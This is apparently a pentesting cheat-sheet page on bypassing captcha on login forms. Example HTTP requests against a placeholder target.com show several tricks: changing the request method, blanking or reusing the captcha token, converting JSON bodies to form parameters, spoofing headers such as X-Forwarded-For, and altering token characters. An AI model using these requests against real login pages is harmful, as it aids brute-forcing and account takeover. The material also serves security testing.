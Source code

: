 ```yaml
---
title: "Bypass Captcha"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:07+08:00
draft: false
---
```


## Try changing the request method, for example POST to GET {#try-changing-the-request-method-for-example-post-to-get}

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to GET

```nil
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
...
```


## Try remove the value of the captcha parameter {#try-remove-the-value-of-the-captcha-parameter}

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=&_Username=daffa&_Password=test123
```


## Try reuse old captcha token {#try-reuse-old-captcha-token}

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```


## Convert JSON data to normal request parameter {#convert-json-data-to-normal-request-parameter}

```nil
POST / HTTP 1.1
Host: target.com
...

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```

Convert to normal request

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```


## Try custom header to bypass captcha {#try-custom-header-to-bypass-captcha}

```nil
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```


## Change some specific characters of the captcha parameter and see {#change-some-specific-characters-of-the-captcha-parameter-and-see}

If it is possible to bypass the restriction.

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Try this to bypass

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```
